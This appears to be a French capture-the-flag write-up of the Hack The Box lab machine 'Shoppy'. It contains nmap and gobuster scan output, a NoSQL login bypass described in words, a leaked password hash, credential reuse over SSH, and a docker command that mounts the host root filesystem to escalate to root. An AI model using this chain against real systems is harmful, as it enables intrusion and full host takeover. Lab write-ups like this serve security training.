 # Shoppy - Easy

scan nmap:

```sql
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-03 13:50 EDT
Nmap scan report for 10.10.11.180
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.70 seconds
```

Visite du site (en attendant on lance nikto et dirb et il faut rajouter le site dans /etc/hosts):

gros countdown avec du javascript de partout

page admin vers /admin avec système de login

le site passe les données dans l’URL (username et password)

load infini sur une injection SQL, vulnérable ??

pas de succès avec SQL, NoSQL ?

Oui c’était du NoSQL et c’était le champ username de vulnérable, on est log en admin sur un panel du site minimaliste

On trouve le hash du mdp admin: 23c6877d9e2b564ef8b32c3a23de27b2

hashcat 😈 → en fait non parce que GC pas détecté

John → cassage du mpd en cours

En attendant y’a pas d’autre vecteurs à part ssh et j’apprend que c’est possible d’utiliser gobuster pour trouver des sous domaines

```sql
gobuster vhost -u shoppy.htb -w /usr/share/wordlists/dirb/common.txt
```

→ pas la bonne wordlist, il en faut une spécifique genre celle là : [https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/DNS/bitquark-subdomains-top100000.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/DNS/bitquark-subdomains-top100000.txt)

```sql
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/vhost.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/11/03 15:17:46 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                                                       
===============================================================
2022/11/03 15:26:38 Finished
===============================================================
```

john donne rien donc hashcat sur host → donne rien

casseur de md5 en ligne →

Marche pas avec le hash de admin mais marche avec le hash de josh

```sql
r******************y
```

Maintenant qu’on a le mdp et le sous-domaine on peut essayer de se log (il faut ajouter au host comme d’hab)

On obtient les creds de jaeger et on récupére le flag user en ssh !

jaeger peut executer un certain executable en temps que deploy alors on accède à un password manager qui nous demande un mdp

En regardant l’executable de plus près on trouve le résultat à entre et on obtient des creds !

On peut donc su en tant que deploy

Créer un docker -v pour share les directory donc / dans /mnt du docker

```sql
docker run -v /:/mnt -di --name test alpine:latest
```

Executer un shell dessus

```sql
docker exec -ti test sh
```

Et on obtient le flag !